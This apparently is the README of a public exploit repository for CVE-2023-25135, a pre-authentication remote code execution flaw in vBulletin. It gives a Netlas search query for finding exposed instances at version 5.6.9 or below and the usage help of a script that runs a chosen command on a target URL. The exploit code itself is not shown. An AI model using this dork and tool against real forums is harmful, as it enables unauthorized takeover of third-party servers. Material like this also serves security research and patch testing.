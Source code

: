 # CVE-2023-25135

vBulletin Pre-authentication RCE

See: https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable

#### Netlas Dork.
- [Search Link](https://app.netlas.io/responses/?page=1&q=tag.vbulletin.version%3A%3C%3D5.6.9)
```
 tag.vbulletin.version:<=5.6.9
```
- Usage
```
python3 rce_exploit.py --help                 
Usage: rce_exploit.py [-h] [-p PROXY] url command

Exploit for CVE-2023-25135: vBulletin pre-authentication RCE.

Positional Arguments:
  url                   Target URL
  command               Command to execute

Options:
  -h, --help            show this help message and exit
  -p, --proxy PROXY     Proxy to use (optional)
 ```
